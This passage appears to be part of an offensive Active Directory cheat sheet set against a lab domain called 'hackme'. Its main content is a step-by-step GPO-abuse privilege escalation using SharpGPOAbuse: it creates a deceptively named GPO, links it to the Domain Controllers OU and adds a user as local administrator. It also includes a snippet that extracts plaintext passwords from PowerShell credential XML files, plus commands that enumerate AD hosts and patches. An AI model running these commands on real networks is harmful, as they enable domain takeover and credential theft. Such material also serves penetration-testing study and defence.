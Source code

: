 ```
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
hackme\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group
hackme\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group
[SNIPPED]
```

2 - Drop `SharpGPOAbuse.exe` on the target machine, or use `Invoke-SharpGPOAbuse`

3 - Run the commands:
```
New-GPO -Name "totallyLegitGPO"
New-GPLink -Name "totallyLegitGPO" -Target "OU=Domain Controllers,DC=hackme,DC=local"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <TARGET_USER> --GPOName totallyLegitGPO
```

4 - Force a GPO update
```
gpupdate /force
```

After performing these steps, run `whoami /groups` to check if the target user has been added to the local administrators group.
It may take a few minutes to work.

### Get Passwords From PS .xml Creds File:
```
$Credential = Import-Clixml -Path "<xml_file>"
$Credential.GetNetworkCredential().password
```

### Get Individual AD Computer IP:
```
$ComputerName = "<MACHINE>"
(Get-ADComputer $ComputerName -Properties IPv4Address).IPv4Address
```

### List all AD Computers and IPs:
```
Get-ADComputer -Filter * -Properties IPv4Address | select name,IPV4Address
```

### Enumerate System Patches:
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
